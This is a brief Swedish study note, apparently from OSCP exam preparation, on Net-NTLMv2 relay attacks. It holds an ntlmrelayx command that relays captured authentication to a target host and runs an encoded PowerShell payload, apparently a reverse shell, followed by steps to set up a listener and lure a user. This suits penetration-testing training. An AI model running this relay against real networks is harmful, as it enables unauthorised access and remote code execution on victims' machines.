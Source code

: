 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/8-net-ntl-mv2-relaying/"}
---
```


- I stället för att styra en autentisiering till en egen uppsatt SMB-server, dirigeras den till en annan maskin, och om användaren har tillgång dit kommer den göra som vi säger när den connectar.
- Görs med 'ntlmrelayx'

-------------

### Net-NTLMv2 Relaying:
1. Sätt upp Impacket-server på Kali:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
2. Sätt upp lyssnare.
3. Dirigera användare
4. Win!